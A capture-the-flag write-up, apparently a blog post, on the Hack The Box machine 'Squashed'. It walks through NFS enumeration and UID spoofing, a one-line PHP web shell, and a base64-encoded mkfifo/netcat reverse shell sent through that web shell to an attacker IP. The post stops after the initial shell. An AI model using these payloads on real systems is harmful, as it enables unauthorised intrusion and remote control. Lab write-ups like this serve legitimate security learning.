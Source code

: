 ```yaml
---
title: "HTB Squashed"
date: 2022-12-12T18:22:03-05:00
draft: false
---
```


First we will start with an nmap scan.

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap/squashed.nmap $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-12 18:20 EST
Nmap scan report for 10.129.40.85
Host is up (0.041s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42597/tcp   mountd
|   100005  1,2,3      49332/udp6  mountd
|   100005  1,2,3      57441/tcp6  mountd
|   100005  1,2,3      58098/udp   mountd
|   100021  1,3,4      34613/udp6  nlockmgr
|   100021  1,3,4      34643/tcp   nlockmgr
|   100021  1,3,4      43627/tcp6  nlockmgr
|   100021  1,3,4      58073/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34643/tcp open  nlockmgr 1-4 (RPC #100021)
42597/tcp open  mountd   1-3 (RPC #100005)
43229/tcp open  mountd   1-3 (RPC #100005)
47523/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

A lot of information is returned from our nmap scan, but port 2049 looks interesting. It is a NFS share, lets check it out!

```bash
showmount -e $IP

Export list for $IP:
/home/ross    *
/var/www/html *
```

Awesome we can see a users home folder & the web root directory!
Now lets try and mount them, and see what information we can gather.

```bash
sudo mount -t nfs 10.129.40.85:/home/ross /mnt/squashed -o nolock

cd /mnt/squashed && ls -la

drwxr-xr-x 14 1001 1001 4096 Dec 12 18:19 .
drwxr-xr-x  3 root root 4096 Dec 12 18:35 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Dec 12 18:19 .Xauthority
-rw-------  1 1001 1001 2475 Dec 12 18:19 .xsession-errors
-rw-------  1 1001 1001 2475 Oct 31 06:13 .xsession-errors.old

```

Great, now if we run the `tree` command we can see all the files in the directories.

```bash
tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 1 file
```

interesting this *Passwords.kdbx* file looks interesting!

This is a KeePass file used to store passwords, but it is encrypted, and trying to use `keepass2john` fails... oh well lets move forward.

lets take a look at the www share. we can mount it using the same command as before, but replacing the directory

Once in the share it seems we arent able to access anything, but it show everything being owned by the user id *2017* and group *www-data*

```bash
drwxr-xr--  5 2017 www-data  4096 Dec 12 19:00 www
```

we can abuse this and gain access to the contents of the folder by creating a user and changing their user id

```bash
sudo useradd pwnd

sudo usermod -u 2017 pwnd

sudo su pwnd -c bash
```

Now lets see if we can access the /var/www/html file share.

```bash
pwnd@kali:/mnt$ cd www
pwnd@kali:/mnt/www$ ls -la
total 56
drwxr-xr-- 5 pwnd www-data  4096 Dec 12 19:10 .
drwxr-xr-x 4 root root      4096 Dec 12 18:53 ..
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 css
-rw-r--r-- 1 pwnd www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 images
-rw-r----- 1 pwnd www-data 32532 Dec 12 19:10 index.html
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 js
pwnd@kali:/mnt/www$
```

Awesome! now that we have access to the web root lets put a simple php shell on the site!

```bash
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > pwnd.php
```

Navigating to the website we can see that the shell worked!

{{< image src="img/Pasted image 20221212181527.png" alt="Initial WebShell" position="center" style="border-radius: 8px;" >}}

Now that we have command execution, lets go for a reverse shell.

I will use the mkfifo shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/
and base64 encode it.

After base64 encoding the reverse shell we should have a string that looks like this
`bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK`

Now lets see if we catch a shell.

Before we run our reverse shell we must stat a listener

```bash
nc -lvnp $port
listening on [any] $port ...
```

navigating back to the site, and using our payload put (you must replace the b64 encoded string with yours):

`/pwnd.php?cmd=echo bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK | base64 -d | bash`

Looking back at our listener you should see this:

{{< image src="img/Pasted image 20221212183603.png" alt="RevShell" position="center" style="border-radius: 8px;" >}}

Cool! now we have a shell on the box!

*you can upgrade your shell using* 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

***I will have to finish this post later***
